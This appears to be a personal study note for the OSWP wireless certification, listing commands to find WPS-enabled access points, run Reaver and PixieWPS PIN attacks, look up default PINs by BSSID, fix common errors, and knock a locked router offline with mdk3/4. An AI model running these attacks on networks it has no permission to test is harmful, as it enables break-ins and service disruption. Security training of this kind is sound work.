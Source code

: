 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/5-wps-cracking/","updated":"2024-01-05T11:37:19.836+01:00"}
---
```


----------------
### Scan for APs with WPS:
- Using Wash:
```
wash -i wlan0mon
```
- Add -5 for 5GHz
- _Lck_ indicates if WPS is locked, i.e. attack is pointless at that time
- Using Airodump:
```
sudo airodump-ng wlan0mon --wps
```

-----------
### Reaver default attack:
```
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v
```
- If Reaver won't switch channels and is stuck on ""Waiting for beacon from..." add the -c parameter and specify the channel
- Test for empy pin: -p "
--------------
### PixieWPS attack:
```
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K
```

-------------------------
### BSSID-dependent PIN attack:
1. Load PINs into memory:
```
source /usr/share/airgeddon/known_pins.db
```
2. Check database for first six characters of BSSID:
```
echo ${PINDB["0013F7"]}
```
3. Verify outputted PINs

----
### Common errors:
Problem: Trying PixieWPS PIN with reaver:
```
[!] WPS transaction failed (code: 0x03), re-trying last pin
```
Solution: Restart reaver without PixieWPS option or try alternative wireless card.

Problem: Reaver may keep trying the same PIN in verbose mode:
```
[+] Sending identity response
[+] Received identity request
```
Solution: Try different wireless card with different chipset.

Problem: WPS is locked
Solution: Perform DoS using mdk3/4 or other to make AP reboot